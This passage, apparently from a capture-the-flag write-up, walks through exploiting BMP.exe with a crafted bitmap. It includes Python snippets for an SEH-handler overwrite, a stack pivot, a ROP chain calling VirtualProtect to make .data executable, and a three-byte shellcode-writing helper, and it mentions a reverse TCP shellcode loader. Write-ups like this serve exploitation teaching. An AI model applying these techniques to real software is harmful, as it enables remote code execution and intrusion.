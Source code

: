 If we run `BMP.exe` with this generated `exploit.bmp` as a command line argument, the EIP goes 0x00424242.

Now we need to mount a ROP attack. But after complex exception handling, stack pointer points to somewhere below my BOF payload. Thankfully, there is an intentional stack pivot gadget (`0x4040ca`). If we redirect the SEH handler to the gadget, we can continue our ROP chain.

```py
pivot = 0x4040ca # add esp, 0x9d4 ; ret

over = ''
over += pack(ret)*0x160 # After stack pivot, the stack pointer lands somewhere here.
over += pack(popeax)    # Skips pivot gadget after ret-sled.
over += pack(pivot)     # Overwrites SEH handler

```

Then call `VirtualProtect()` API to grant RWX permission to `.data` section.

```py
over += pack(popesi)
over += pack(_data)
over += pack(popedi)
over += pack(_data)
over += pack(call_vprotect)
over += pack(_data)
over += pack(0x1000)
over += pack(0x40)     # perm = RWX
over += pack(_data)
```


### 4. Loading shellcode

Now we just need to write the shellcode at `.data` and jump to there. But because `copy_palette_402720` function zeros a byte every four byte of the payload, we cannot simply call `memcpy()` on the stack address. We had to use multiple ROP gadgets to write 3 bytes at a time.

```py
def rop_put_str(where, what):
    what = what + '\0'*(3 - (len(what) % 3)) # Pad to 3-byte unit.
    rop = ''
    for i in range(0, len(what), 3):
        rop += pack(popecx)
        rop += pack(where + i)
        rop += pack(popeax)
        rop += what[i:i+3] + '\0'
        rop += pack(store)        # mov dword ptr [ecx], eax ; ret
    return rop

over += rop_put_str(_data, 'abcdefghijklmnopqrstuvwxyz')
```

But we could not send long reverse TCP shellcode (around 500 bytes) with this rudimentary method simply because stack was not large enough. So we only copied short "loader" shellcode this way. The loader shellcode below copies the real shellcode body from stack to `.data` section and then jumps to it.
